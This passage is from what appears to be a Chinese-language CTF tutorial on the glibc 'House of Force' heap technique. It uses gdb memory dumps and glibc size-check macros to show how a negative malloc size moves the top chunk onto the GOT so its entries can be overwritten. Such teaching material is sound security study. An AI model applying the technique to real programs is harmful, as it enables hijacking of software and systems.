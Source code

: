 ```
0x601020:	0x00007ffff7a91130 <=== malloc@got.plt
```
所以我们应该将 top chunk 指向 0x601010 处，这样当下次再分配 chunk 时，就可以分配到 `malloc@got.plt` 处的内存了。

之后明确当前 top chunk 的地址，根据前面描述，top chunk 位于 0x602020，所以我们可以计算偏移如下

0x601010-0x602020=-4112

此外，用户申请的内存大小，一旦进入申请内存的函数中就变成了无符号整数。

```c
void *__libc_malloc(size_t bytes) {
```

如果想要用户输入的大小经过内部的 `checked_request2size`可以得到这样的大小，即

```c
/*
   Check if a request is so large that it would wrap around zero when
   padded and aligned. To simplify some other code, the bound is made
   low enough so that adding MINSIZE will also not wrap around zero.
 */

#define REQUEST_OUT_OF_RANGE(req)                                              \
    ((unsigned long) (req) >= (unsigned long) (INTERNAL_SIZE_T)(-2 * MINSIZE))
/* pad request bytes into a usable size -- internal version */
//MALLOC_ALIGN_MASK = 2 * SIZE_SZ -1
#define request2size(req)                                                      \
    (((req) + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE)                           \
         ? MINSIZE                                                             \
         : ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK)

/*  Same, except also perform argument check */

#define checked_request2size(req, sz)                                          \
    if (REQUEST_OUT_OF_RANGE(req)) {                                           \
        __set_errno(ENOMEM);                                                   \
        return 0;                                                              \
    }                                                                          \
    (sz) = request2size(req);
```

一方面，我们需要绕过 REQUEST_OUT_OF_RANGE(req) 这个检测，即我们传给 malloc 的值在负数范围内，不得大于 -2 * MINSIZE，这个一般情况下都是可以满足的。

另一方面，在满足对应的约束后，我们需要使得 `request2size`正好转换为对应的大小，也就是说，我们需要使得 ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK 恰好为-4112。首先，很显然，-4112 是 chunk 对齐的，那么我们只需要将其分别减去 SIZE_SZ，MALLOC_ALIGN_MASK 就可以得到对应的需要申请的值。其实我们这里只需要减 SIZE_SZ 就可以了，因为多减的 MALLOC_ALIGN_MASK 最后还会被对齐掉。而**如果 -4112 不是 MALLOC_ALIGN 的时候，我们就需要多减一些了。当然，我们最好使得分配之后得到的 chunk 也是对齐的，因为在释放一个 chunk 的时候，会进行对齐检查。**

因此，我们当调用`malloc(-4120)`之后，我们可以观察到 top chunk 被抬高到我们想要的位置

```
0x7ffff7dd1b20 <main_arena>:\	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x0000000000601010 <=== 可以观察到top chunk被抬高
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
之后，我们分配的块就会出现在 0x601010+0x10 的位置，也就是 0x601020 可以更改 got 表中的内容了。
